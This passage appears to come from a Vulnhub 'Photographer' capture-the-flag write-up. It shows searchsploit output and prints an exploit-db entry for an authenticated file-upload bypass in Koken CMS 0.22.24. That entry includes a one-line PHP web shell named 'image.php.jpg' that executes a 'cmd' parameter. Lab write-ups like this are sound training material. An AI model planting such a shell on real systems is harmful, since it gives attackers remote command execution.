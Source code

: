 Let's check the website on port 80 first
![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307171542.png){: width="700" height="400" }


![Image](/assets/img/WriteUp/Vulnhub/Photographer/Pasted image 20230307171634.png){: width="700" height="400" }


```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Photographer]
└─$ searchsploit koken                 
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)                                                                                                                                                 | php/webapps/48706.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
 
```


```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Photographer]
└─$ searchsploit -m 48706              
  Exploit: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
      URL: https://www.exploit-db.com/exploits/48706
     Path: /usr/share/exploitdb/exploits/php/webapps/48706.txt
    Codes: N/A
 Verified: False
File Type: ASCII text
Copied to: /home/emvee/Documents/Vulnhub/Photographer/48706.txt


                                                                                                                                                                                                                                            
┌──(emvee㉿kali)-[~/Documents/Vulnhub/Photographer]
└─$ cat 48706.txt                      
# Exploit Title: Koken CMS 0.22.24 - Arbitrary File Upload (Authenticated)
# Date: 2020-07-15
# Exploit Author: v1n1v131r4
# Vendor Homepage: http://koken.me/
# Software Link: https://www.softaculous.com/apps/cms/Koken
# Version: 0.22.24
# Tested on: Linux
# PoC: https://github.com/V1n1v131r4/Bypass-File-Upload-on-Koken-CMS/blob/master/README.md

The Koken CMS upload restrictions are based on a list of allowed file extensions (withelist), which facilitates bypass through the handling of the HTTP request via Burp.

Steps to exploit:

1. Create a malicious PHP file with this content:

   <?php system($_GET['cmd']);?>

2. Save as "image.php.jpg"

```
